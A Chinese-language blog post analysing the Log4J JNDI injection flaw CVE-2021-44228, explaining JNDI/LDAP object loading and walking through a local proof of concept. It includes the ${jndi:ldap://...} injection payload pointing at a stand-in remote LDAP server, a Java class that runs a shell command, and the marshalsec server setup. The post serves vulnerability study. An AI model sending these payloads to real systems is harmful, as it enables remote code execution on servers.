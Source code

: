```yaml
---
title: Log4J 漏洞浅析（CVE-2021-44228）
author: fangfeng
date: 2021-12-10
tags:
  - CVE
  - Log4J
categories:
  - CVE
---
```


12月10日凌晨爆出的 Log4J 漏洞引起了广泛关注，被称为“核弹级”漏洞。费了一番功夫搞懂了来龙去脉，就用本文来剖析下漏洞根因。

## 前置知识：JNDI

Java 命名和目录接口(JNDI) 为使用Java 编写的应用程序提供命名和目录功能，以一种统一的接口形式支持 LDAP、DNS、RMI 等丰富的 SPI 实现，允许 Java 程序通过名称向目录服务查找并检出数据与对象。

![Untitled](Log4J%20%E6%BC%8F%E6%B4%9E%E6%B5%85%E6%9E%90%EF%BC%88CVE-2021-44228%EF%BC%89%20b24be1196d624f0e91982bba829f6a5a/Untitled.png)

图源：[https://docs.oracle.com/javase/tutorial/jndi/overview/index.html](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)

另一方面，轻型目录访问协议(LDAP)等协议能够提供 Java 对象的目录存储范式[3]。

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
1. Using Java serialization   [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html)
2. Using JNDI References [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html)
> 

其中取回的 Java 对象将被解码并最终被 Jdni Manager 执行——也就是支持远程代码执行。

```java
public void run() {
		Context context = new InitialLdapContext();
	  context.lookup("jndi:ldap://REMOTE.SERVER.COM:1389/a");
}
```

## Log4J 漏洞

```java
LOGGER.error("user not found. username: {}", username);
```

一般来说，我们会在日志中记录用户输入，并以此来排查用户交互行为导致的各种异常。而这也是该漏洞被称为高危的原因。比如上例中的 `username` ，一旦恶意用户填充上 `${jndi:ldap://REMOTE.SERVER.COM:1389/a}`（由用户控制的 LDAP 服务器），Log4J 会填充 `{}` ，而更近一步，因为内容被替换为 `${xxx}`  ，又触发了 `Context.lookup()`， 也就形成了 `JNDI Injection` ，向应用程序注入恶意代码，从而控制服务器等。

## PoC

需要注入的恶意代码，为目标 MacOS 打开 计算器。

```java
public class Injection {
    static {
        try {
            String[] cmd = {"bash", "-c", "open -a /System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

上述代码使用 `javac` 编译后快速构建 HTTP 文件服务 `python -m SimpleHTTPServer`

利用 [`https://github.com/mbechler/marshalsec`](https://github.com/mbechler/marshalsec) 搭建 LDAP 服务。

```java
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer '<http://127.0.0.1:8000/#Injection>' 1389
```

漏洞程序如下

```java
public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) throws IOException, NamingException {
        BufferedReader br = new BufferedReader(new InputStreamReader(System.in));
        String username = br.readLine();
        logger.error("user not found. username: {}", username);
    }
}
```

启动漏洞程序并输入 `${jndi:ldap://127.0.0.1:1389}` 。

![](https://img.ffutop.com/9C5B023E-A1A1-41CE-AF84-3378ED3F180A.png)

## 参考

[1]. [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

[2]. [https://docs.oracle.com/javase/jndi/tutorial/objects/index.html](https://docs.oracle.com/javase/jndi/tutorial/objects/index.html)

[3]. [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
